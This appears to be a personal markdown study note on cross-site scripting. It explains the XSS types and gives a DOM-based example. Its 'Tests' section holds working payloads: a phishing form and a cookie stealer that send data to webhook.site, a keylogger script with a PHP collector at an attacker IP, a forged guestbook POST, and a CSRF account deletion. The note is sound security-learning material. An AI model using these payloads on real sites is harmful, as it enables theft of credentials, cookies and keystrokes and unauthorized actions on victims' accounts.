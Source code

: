 # XSS

Client side attack where the website renders unsanitized input and can be used to instruct the browser to execute JS.

If we alert document.domain from a sandboxed iFrame, it is harmless as we can't access any information from the DOM. This is due to Same Origin Policy ( SOP ) in browsers. This restricts the way the Documents are allowed to interact with resources from different origin.

SOP example - `http://www.test.com` is the domain and if `https://www.test.com` is used it is denied due to different protocol.

In terms of testing for XSS, it’s important to realize there are really two main types of
XSS: reflected and stored.

*Reflected/non-persistent* XSS occurs when the XSS payload is delivered and executed via a single HTTP request and is not stored anywhere on the site. Since it’s not stored, it’s not possible to execute the payload without sending another HTTP request
with the payload. However, browsers (Chrome, Internet Explorer, Edge and Safari) have attempted to prevent this type of vulnerability by introducing XSS Auditors. This is built in functionality browsers have which attempt to protect users from malicious links which execute JavaScript. When this occurs, the browser will typically show a broken page with
a message stating the page has been blocked to protect users.

In contrast, *stored*/*persistent* XSS occurs when a site saves a malicious payload and renders it unsanitized. When looking for stored XSS, it’s important to note that sites may render the inputted payload in various locations. It’s possible that the payload may not execute immediately after submitting it but might execute when another page is accessed. For
example, if you created a profile on a website with an XSS payload as your name, the XSS may not execute when you view your profile but might when someone searched for your name or someone sent you a message.

*Further subtypes*
1. DOM Based - Manipulating websites existing JS code to execute. Can be Stored or Reflected.
Example  - Here the web page takes input via the URL (http://www.test.com/Hi#name) so the script finds the name in the span tag and adds it to after the location.hash (which is browser api for URL).
```
<html>
 <body>
  <h1>Hi <span id="name"></span></h1>
  <script>
   document.getElementById('name').innerHTML=location.hash.split('#')[1]
  </script>
 </body>
</html>

```
Now the page doesn't sanitize the # value in the page before updating the span element. if we had a user click on http://www.test.com/Hi#<img src=x onerror=alert(document.domain)> then the alert box would pop up.
The rendered HTML would look like this
```
<html>
 <body>
  <h1>Hi <span id="name"><img src=x onerror=alert(document.domain)></span></h1>
  <script>
   document.getElementById('name').innerHTML=location.hash.split(‘#’)[1]
  </script>
 </body>
</html>
```


2. Blind - This type of XSS is where the hacker can't access when the JS is rendered. Example would be creating a profile with malicious input and normal viewers will not trigger the XSS but an administrator view of it might. XSS hunter is a great tool.

https://xsshunter.com/

3. Self - This type of XSS may or may not be stored but only impacts the user entering the payload.
Example - If XSS is submitted via a POST request but the request is protected by CSRF protection then the attacker can only attack themselves and not anyone else.

It's best to combine this with a login/logout CSRF -  https://whitton.io/articles/uber-turning-self-xss-into-good-xss/


### Event Handlers

-onmouseover
-onclick
-onload
-onerror

Resources -

http://html5sec.org/
https://blog.innerht.ml/  
https://github.com/masatokinugawa/filterbypass/wiki/Browser's-XSS-Filter-Bypass-Cheat-Sheet
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/Intruders/BRUTELOGIC-XSS-STRINGS.txt


## Tests
1. Create fake login form via form tags and use webhook.site for response to phish credentials

<form action=https://webhook.site/238ea68b-e778-4445-9cc7-85360f235cae>Username:<br><input type="username" name="username"></br>Password:<br><input type="password" name="password"></br><br><input type="submit" value="Logon"></br>

2. Load image from source (webhook site) and send cookies

<script>new  Image().src="https://webhook.site/083f7f12-8502-44fc-b889-2ef793c77b18"+document.cookie;</script>

3. If httpOnly cookie is set we can't use JS or python to access the cookies however we can perform unauthorized activities

Here we are posting on victim's behalf
`'
<script>
	var xhr = new XMLHttpRequest();
	xhr.open('POST','http://localhost:81/DVWA/vulnerabilities/xss_s/',true);
	xhr.setRequestHeader('Content-type','application/x-www-form-urlencoded');
	xhr.send('txtName=xss&mtxMessage=xss&btnSign=Sign+Guestbook');
</script>
'`
4. Capture keystrokes

This requires 2 pieces - (stored on attacker server) 1 keylogger.js and one key.php file which look like this

###keylogger.js
`'
document.onkeypress = function (evt) {
  evt = evt || window.event
  key = String.fromCharCode(evt.charCode)
  if(key) {
    var http = new XMLHttpRequest();
    var param = encodeURI(key)
    http.open("POST","http://xx.xx.xx.xx/key.php", true)
    http.setRequestHeader("Content-Type". "application/x-form-urlencoded");
    http.send("key="+param);
  }
}
`'
###key.php
`'
<?php
if(!empty($_POST['key'])) {
  $logfile = fopen('data.txt', 'a+');
  fwrite($logfile, $_POST['key']);
  fclose($logfile);
}
?>
`'

5. XSS CSRF
`'
<script>

var uid = document.forms[0].elements[0].value; //Traversing HTML for values
var token = document.forms[0].elements[1].value;

var req = new XMLHttpRequest();

req.open("POST", "/webapp/csrf/xss/delete", true);

req.setRequestHeader("Content-type", "x-www-form-urlencoded");

req.send("uid="+uid+ "&csrf_token="+token);

</script>
`'
If a logged in user runs a link with this XSS in the URL we will be able to delete the account.
